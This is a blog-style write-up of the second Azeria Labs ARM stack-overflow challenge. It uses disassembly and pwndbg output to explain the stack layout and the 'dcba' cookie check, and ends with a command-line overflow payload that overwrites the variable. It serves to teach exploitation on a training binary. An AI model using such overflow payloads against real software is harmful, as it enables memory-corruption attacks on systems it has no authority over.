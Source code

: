 ```yaml
---
layout: post
title: "Smashing ARM Stack for Fun - Part II"
tags: reversing exploiting ARM iasm azeria-labs
---
```


This is going to be a fast moving post, directly to the details,
about exploiting the [second Arm challenge](https://github.com/azeria-labs/ARM-challenges)<!--more-->


## Распределение стека

```nasm
 ► 0x104b0 <main>       push   {fp, lr}
   0x104b4 <main+4>     add    fp, sp, #4
   0x104b8 <main+8>     sub    sp, sp, #0x50
   0x104bc <main+12>    str    r0, [fp, #-0x50]
   0x104c0 <main+16>    str    r1, [fp, #-0x54]
```

0x58 bytes are allocated where 0x54 bytes belong to the current stack
frame.

The first two words are allocated by `push` and the rest by `sub`.

```python
100:00> ;! M[sp:]   # <-- from sp to the end of the mapped page
[
        --
        |   \xee\xee\xee\xee   == r1
        |   \xdd\xdd\xdd\xdd   == r0
  0x50  |   \x00\x00\x00\x00
        |   ... 16 more rows full of zeros ...
cookie -|-->\x00\x00\x00\x00
        --
   0x8  |   \xbb\xbb\xbb\xbb   == fp
 fp ----|-->\xaa\xaa\xaa\xaa   == lr
        --
] <-- base of stack
```

## Проверка аргументов

{% marginnote
'`errx` prints a message to the standard error output and then makes
the program exit.
<br />
See [man errx](https://linux.die.net/man/3/errx)
' %}

`argc` is expected to be 1 otherwise the program will **not** jump
and `errx` will be called.

```nasm
   0x104c4 <main+20>    ldr    r3, [fp, #-0x50]
   0x104c8 <main+24>    cmp    r3, #1
   0x104cc <main+28>    bne    #main+44 <main+44>

   0x104d0 <main+32>    mov    r0, #1
   0x104d4 <main+36>    ldr    r1, [pc, #0x5c]
   0x104d8 <main+40>    bl     #errx@plt <errx@plt>

 ► 0x104dc <main+44>    mov    r3, #0
```

{% marginnote
'As mentioned in a [previous post](/articles/2021/01/14/Smashing-ARM-Stack-for-Fun-Part-I.html),
when `pc` is used for indexing
the `pc` is the address of the current about-to-be-executed instruction
*plus* 8 bytes.
' %}

Let's see  `ldr r1, [pc, #0x5c]` which translates to 0x104d4 + 0x5c + 0x8:

```nasm
pwndbg> x/1wx 0x10538
0x10538 <main+136>:     0x000105bc

pwndbg> x/1bs 0x000105bc
0x105bc:        "please specify an argument\n"
```

## Переполнение буфера

A cookie is stored in the stack with a value of zero. Then `argv`
is loaded into `r3` or `&argv[0]` if you want.

The `add` instruction moves `argv` pointer 4 bytes forward. In other
words, `r3` *points* to `argv[1]`.

Finally the pointer is dereferenced and `r3` *has* the `argv[1]`
pointer.

```nasm
 ► 0x104dc <main+44>    mov    r3, #0
   0x104e0 <main+48>    str    r3, [fp, #-8]
   0x104e4 <main+52>    ldr    r3, [fp, #-0x54]
   0x104e8 <main+56>    add    r3, r3, #4
   0x104ec <main+60>    ldr    r3, [r3]
```

Like in the [previous challenge](/articles/2021/01/14/Smashing-ARM-Stack-for-Fun-Part-I.html),
begin of the buffer for `strcpy`
is 4 bytes below the pushed arguments and has a size of 64 bytes
(0x48 bytes minus 4 bytes for the pushed `fp` and 4 bytes for the
cookie)

```nasm
   0x104f0 <main+64>    sub    r2, fp, #0x48
```

```python
100:20> ;! M[sp:]
[
        --
        |   \xee\xee\xee\xee   == r1
        |   \xdd\xdd\xdd\xdd   == r0
  0x50  |   \x00\x00\x00\x00
buf ----|-->AAAA
        |   BBBB
        |   CCCC
        |   ... 13 more rows full of zeros ...
cookie -|-->\x00\x00\x00\x00
        --
   0x8  |   \xbb\xbb\xbb\xbb   == fp
 fp ----|-->\xaa\xaa\xaa\xaa   == lr
        --
]
```

Finally the call to `strcpy` is made:

```nasm
   0x104f4 <main+68>    mov    r0, r2
   0x104f8 <main+72>    mov    r1, r3
   0x104fc <main+76>    bl     #strcpy@plt <strcpy@plt>
```

## Сравнение

```nasm
 ► 0x10500 <main+80>     ldr    r3, [fp, #-8]
   0x10504 <main+84>     ldr    r2, [pc, #0x30]
   0x10508 <main+88>     cmp    r3, r2
   0x1050c <main+92>     bne    #main+108 <main+108>
```

The cookie is loaded from the stack and compared with the value
stored in the code segment at 0x10504 + 0x30 + 0x8:

```nasm
pwndbg> x/1wx 0x1053c
0x1053c <main+140>:     0x61626364
```

The good old `'abcd'` or `'dcba'` to be more precise due the endianess
of the machine.

A byte by byte inspection may make this more explicit:

```nasm
pwndbg> x/4bx 0x1053c
0x1053c <main+140>:     0x64    0x63    0x62    0x61
```


## Наша цель (branch at 0x1050c **not** taken):

```nasm
pwndbg> pdisass 0x10510
 ► 0x10510 <main+96>     ldr    r0, [pc, #0x28]
   0x10514 <main+100>    bl     #puts@plt <puts@plt>

   0x10518 <main+104>    b      #main+124 <main+124>

pwndbg> x/1wx 0x10540
0x10540 <main+144>:     0x000105d8

pwndbg> x/1bs 0x000105d8
0x105d8:        "you have correctly got the variable to the right value"
```

## Неудача (branch at 0x1050c **is** taken):

```nasm
pwndbg> pdisass &main+108 10
 ► 0x1051c <main+108>    ldr    r3, [fp, #-8]
   0x10520 <main+112>    ldr    r0, [pc, #0x1c]
   0x10524 <main+116>    mov    r1, r3
   0x10528 <main+120>    bl     #printf@plt <printf@plt>

pwndbg> x/1wx 0x10544
0x10544 <main+148>:     0x00010610

pwndbg> x/1bs 0x00010610
0x10610:        "Try again, you got 0x%08x\n"
```

## Эпилог

We reach here regardless of which path the branch at 0x1050c jumped to:

```nasm
pwndbg> pdisass &main+124
 ► 0x1052c <main+124>    mov    r0, r3
   0x10530 <main+128>    sub    sp, fp, #4
   0x10534 <main+132>    pop    {fp, pc}
```

## Атака

```shell
pi@raspberrypi:~$ ./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdcba
you have correctly got the variable to the right value
```
